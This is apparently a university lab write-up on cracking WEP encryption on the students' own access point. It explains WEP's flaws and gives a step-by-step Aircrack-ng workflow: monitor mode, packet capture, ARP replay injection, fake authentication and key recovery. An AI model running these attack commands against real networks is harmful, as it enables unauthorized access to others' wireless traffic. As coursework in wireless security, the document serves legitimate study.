 ![logo uit](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/uit-logo.png)

# Project : Cracking WEP

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

Lecturer: Lê Kim Hùng

Courses: Wireless Security

[I.Introduce](#i-introduce)

1. [Wired Equivalent Privacy](#1.%20Wired%20Equivalent%20Privacy%20(WEP))

2. [WEP Issues](#2.%20WEP%20Issues)

[II.Hardware](#II.%20Hardware)

[III.Cracking WEP](#III.%20Cracking%20WEP)

1. [Aircrack-ng](#1.%20Aircrack-ng)

    - [Step 1: Set up wifi modem (low password)](#Step%201:%20Set%20up%20wifi%20modem%20(low%20password))

    - [Step 2: Run monitor mode](#Step%202:%20Run%20monitor%20mode)

    - [Step 3: Capture wireless packet](#Step%203:%20Capture%20wireless%20packet)

    - [Step 4: Cracking WEP](#Step%204:%20Cracking%20WEP)

    - [Step 5: Set up wifi modem (advance password)](#Step%205:%20Set%20up%20wifi%20modem%20(advance%20password))

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0
>
>> -9 means injection test
>>
>> -e LETHIHUYEN\* teddy is the network name (SSID)
>>
>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)
>>
>> -wlan0 is the interface name

![injection test](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0
>
>> --bssid is MAC address of the access point
>>
>> -c 1 is AP channel
>>
>> -w WEPcrack: export to WEP crack file

![capture packet](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0
>
>> -3 means standard arp request replay
>>
>> -b 72:F4:C2:D1:75:08 is the access point MAC address
>>
>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0
>
>> -1 means fake authentication
>>
>> 0 reassociation timing in seconds

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/fail-to-get-pass.png)

We got the password

![find advance password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-advance-pass.png)
